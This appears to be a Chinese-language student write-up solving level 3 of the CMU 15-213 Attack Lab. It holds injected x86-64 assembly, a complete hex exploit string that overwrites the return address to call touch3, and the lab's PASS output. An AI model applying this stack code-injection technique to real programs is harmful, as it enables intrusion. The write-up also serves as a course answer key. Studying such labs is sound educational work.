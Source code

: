 首先我们分析过程，根据正常的执行我们会输入一定的字符串使得覆盖下一条指令的地址，到达我们想要执行的地方，这个时候就是到达我们的缓冲区的地方了，开始执行缓冲区的代码(自己写的)，注意执行缓冲区的代码的时候会有一个ret指令，现在我们纠结的就是将35  39  62  39  39  37  66  61  00放到ret后面还是前面，如果放在前面我们继续执行代码会发现，**在ret的时候会使得调用touch3和hexmatch函数，我们放在缓冲区里面的代码有可能会被hexmatch函数中的声明变量cbuf给覆盖**，为什么放在ret下面不会被覆盖，因为：放在下面代表着是高地址部分的数据，也就是父函数(栈是从上向下扩展的)，在子函数ret的时候不会覆盖父函数。所以我们应该放在缓冲区的外面，也就是继续向栈的上面进行书写，覆盖父函数的代码部分(反正吊起touch3就好了)。 

```
mov $0x5561dca8,%rdi
pushq $0x04018fa
retq
```

mov 的地址是数出来的

```
mov $0x5561dca8,%rdi
pushq $0x04018fa
retq
```

touch3

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 
```

```
$ cat touch3 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```



# 4(参考)

作者：金际一线天

链接：https://www.jianshu.com/p/db731ca57342

来源：简书

著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。
